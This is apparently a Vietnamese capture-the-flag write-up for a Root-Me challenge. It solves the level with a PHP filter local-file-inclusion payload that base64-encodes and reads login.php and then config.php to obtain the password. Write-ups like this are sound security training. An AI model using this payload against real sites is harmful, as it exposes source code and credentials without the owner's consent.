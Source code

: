 Google từ khóa PHP filter, sẽ thấy đó là 1 PHP wrapper(đây là [link](https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb) tham khảo). Gõ vào đường dẫn như sau:

> http://challenge01.root-me.org/web-serveur/ch12/index.php?inc=php://filter/convert.base64-encode/resource=login.php

Sẽ hiện ra 1 đoạn mã đã được base64 encode, nhét vào decoder ta được đoạn code php ẩn của trang web như sau:

```php
<?php
include("config.php");

if ( isset($_POST["username"]) && isset($_POST["password"]) ){
    if ($_POST["username"]==$username && $_POST["password"]==$password){
      print("<h2>Welcome back !</h2>");
      print("To validate the challenge use this password<br/><br/>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");
    }
} else {
?>

<form action="" method="post">
  Login&nbsp;<br/>
  <input type="text" name="username" /><br/><br/>
  Password&nbsp;<br/>
  <input type="password" name="password" /><br/><br/>
  <br/><br/>
  <input type="submit" value="connect" /><br/><br/>
</form>

<?php } ?>
```

Vậy ta đã biết username và password nằm trong file config.php. Thực hiện việc tương tự như trên 

>http://challenge01.root-me.org/web-serveur/ch12/index.php?inc=php://filter/convert.base64-encode/resource=config.php

sẽ lấy được password